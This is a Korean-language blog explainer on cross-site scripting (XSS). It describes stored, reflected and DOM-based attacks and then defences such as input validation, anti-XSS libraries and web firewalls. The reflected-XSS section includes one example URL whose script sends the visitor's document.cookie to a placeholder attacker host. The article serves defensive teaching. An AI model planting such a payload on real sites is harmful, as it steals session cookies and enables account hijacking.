 # XSS \(Cross-Site Scripting\) 이란?

##  **1 개요**

![](https://t1.daumcdn.net/cfile/tistory/99E25E485C89B3950D)

 XSS\(Cross-Site Scripting\) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다. XSS공격 역시 OWASP Top10에 포함되어 있습니다. 대부분 사용자가 글을 쓰고 읽을 수 있는 게시판에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생합니다. 악의적인 사용자가 C&C 서버로 리다이렉션 하기 위해 리다이렉션 스크립트를 주입하여 중간 경유지로 활용하기도 하고, 사용자의 쿠키를 탈취하여 세션 하이재킹\(Session Hijacking\) 공격을 수행하기도 합니다.

 위의 사진은 XSS 공격중 Persistent\(or Stored\) XSS Attack이고, 사용자의 세션을 탈취하는 프로세스를 나타내고 있습니다. 해커가 XSS 공격에 취약한 웹사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성스크립트로 인해 본인의 쿠키가 해커에게 전송되게 됩니다. 세션ID가 포함된 쿠키를 탈취한 해커는 탈취한 사용자의 계정으로 로그인 하게 됩니다.

## **2 공격 종류 및 방법**

**Persistent\(or Stored\) XSS**

**지속형\(혹은 저장형\) XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/997CF6485C89B39508)

   Persistent\(or Stored\) XSS

XSS 공격 종류 중 하나인 Persistent XSS 는 말 그대로 지속적으로 피해를 입히는 XSS 공격입니다. 위의 그림을 보면, 해커는 웹 애플리케이션에서 XSS 취약점이 있는 곳을 파악하고, 악성스크립트를 삽입합니다. 삽입된 스크립트는 데이터베이스에 저장이 되고, 저장된 악성스크립트가 있는 게시글 등을 열람한 사용자들은 악성스크립트가 작동하면서 쿠키를 탈취당한다던가, 혹은 다른 사이트로 리다이렉션 되는 공격을 받게 됩니다. 데이터베이스에 저장이 되어 지속적으로 공격한다고 하여 Persistent XSS 라고 부르며, 데이터베이스에 저장이 되므로 Stored XSS 공격이라고 부르기도 합니다. 한번의 공격으로 악성스크립트를 삽입하여 수많은 피해를 입힐 수 있다는 점이 특징입니다.

Persistent XSS로 가장 많이 공격이 되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 프론트엔드 단에 보여주는 곳에 공격이 성공할 가능성이 큽니다. XSS공격도 마찬가지로 사용자의 입력에 대한 검증이 없기 때문에 발생합니다.

### **Reflected XSS**

**반사형 XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/99CB0F485C89B39406)

   Reflected XSS

Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려 주는 곳에서 발생합니다. 예를 들면 사용자에게 입력 받은 검색어를 그대로 보여주는 곳이나 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성스크립트가 삽입되면, 서버가 사용자의 입력 값을 포함해 응답해 줄 때 스크립트가 실행됩니다.  보통 Reflected XSS 는 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악의적인 스크립트가 실행되면서 공격을 당하게 됩니다.  

예를 들면, GET 방식으로 검색기능을 구현한 웹 애플리케이션에 XSS 취약점이 있음을 확인한 해커는 공격코드를 작성하였습니다. 편의상 URL 인코딩은 하지 않았습니다. http://testweb?search=&lt;script&gt;location.href\("http://hacker/cookie.php?value="+document.cookie\);&lt;/script&gt;

악의적인 스크립트를 살펴보면 검색 인자로 작성한 스크립트를 넘겨줍니다. 해당 스크립트의 내용은 본인의 웹페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있습니다. 링크를 클릭한 사용자는 해커한테 본인의 의도와는 상관없이 자신의 쿠키 값을 전송하게 됩니다.  


### **DOM based XSS**

**DOM\(Document Object Model\) 기반 XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/99D295485C89B3940D)

   DOM based XSS

 DOM based XSS 는 악의적인 스크립트가 포함 된 URL을 사용자가 요청하게 되어 브라우저를 해석하는 단계에 발생하는 공격입니다. 악의적인 스크립트로 인해서 클라이언트 측 코드가 원래 의도와는 다르게 실행됩니다. DOM based XSS 공격은 다른 XSS 공격과는 다르게 서버 측에서 탐지가 어렵다는 점입니다. 위의 그림을 보면 해커는 http://www.some.site/page.html URL 과 함께 \# 이라는 특수문자를 사용하고 있습니다. 이 특수문자는 \# 이후의 값은 서버로 전송되지 않는 기능을 가지고 있습니다.

![](https://t1.daumcdn.net/cfile/tistory/9943A2485C89B39313)

 DOM based XSS 공격 위치

사용자의 요청에 따라 HTML을 다르게 해석하는 부분에 공격이 가능합니다.

## **3 대응방안**

**입출력 값 검증**

 사용자가 입력한 값에 대한 검증과 사용자가 입력한 값을 그대로 출력할 때 검증이 필요 합니다. XSS Cheat Sheet 에 대한 필터 목록을 만들어 모든 Cheat Sheet에 대한 대응이 가능하도록 하여야 합니다. XSS에 대한 필터링을 적용한 뒤 직접 테스트 하여 스크립트가 실행되는지 모의해킹 해보는 것도 좋은 방법입니다.

**XSS 방어 라이브러리 , 브라우저 확장앱 사용**

 XSS를 막아주는 Anti XSS 라이브러리를 여러 회사에서 제공하는데 이 라이브러리를 사용하면 손쉽게 XSS를 방어할 수 있습니다. XSS 라이브러리를 사용하는 것은 서버 단에서 개발자가 추가하는 것이고, 사용자들이 각자 본인의 브라우저에서 악의적인 스크립트가 실행되지 않도록 방어하는 것이 중요합니다. 방문하는 모든 사이트가 안전하다는 보장이 없기 때문에 브라우저 확장 앱 중 Anti XSS 를 해주는 애플리케이션을 설치하고 방어하여야 합니다.

**웹 방화벽 사용**

 웹 방화벽은 웹 공격에 특화되어있기 때문에 XSS 공격을 방어하기 위함만이 아니라 각종 Injection 공격을 효과적으로 방어할 수 있습니다.

출처 : [https://noirstar.tistory.com/266](https://noirstar.tistory.com/266)

